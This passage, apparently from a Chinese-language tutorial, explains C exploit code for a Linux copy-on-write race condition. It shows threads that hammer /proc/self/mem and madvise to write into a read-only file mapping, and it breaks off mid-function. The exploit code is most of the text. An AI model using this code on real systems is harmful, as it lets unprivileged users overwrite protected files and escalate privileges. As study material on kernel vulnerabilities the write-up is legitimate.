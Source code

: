 ```c

	pthread_create(&pth1, NULL, madviseThread, argv[1]);
	pthread_create(&pth2, NULL, procselfmemThread, argv[2]);

	pthread_join(pth1,NULL);
	pthread_join(pth2,NULL);

	close(f);

	return 0;
}
```

main函数主要做的就是设置内存映射和线程：

* 普通用户身份以只读模式打开指定的只读文件
* 使用MAP_PRIVATE映射内存
* 找到目标文件映射的内存地址
* 创建两个线程

### procselfmemThread线程

```c
void *procselfmemThread(void *arg)
{
	char *str;
	str = (char *)arg;

	int f = open("/proc/self/mem", O_RDWR);
	int i = 0, c = 0;
	while(i < 1000000 && !bSuccess)
	{
		lseek(f, (uintptr_t)map, SEEK_SET);
		c += write(f,str,strlen(str));
		i++;
	}
	close(f);
	printf("procselfmem %d \n\n", c);
}
```

这个线程通过访问linux的/proc文件系统来访问进程的内存地址空间，并通过write系统调用不断尝试向映射的物理内存块中写入数据，这时候发生写时复制。

### madviseThread线程

```c
void *madviseThread(void *arg)
{
	char *str;
	str = (char *)arg;
	int f = open(str, O_RDONLY);
	int i = 0, c = 0;
	char buffer1[1024], buffer2[1024];
	int size;
	lseek(f, 0, SEEK_SET);
	size = read(f, buffer1, sizeof(buffer1));
	while(i < 10000000)
	{
		c += madvise(map, 100, MADV_DONTNEED);
		lseek(f, 0, SEEK_SET);
		size = read(f,buffer2,sizeof(buffer2));
		if(size > 0 && strcmp(buffer1,buffer2))
		{
			printf("Hack success!\n\n");
			bSuccess = 1;
```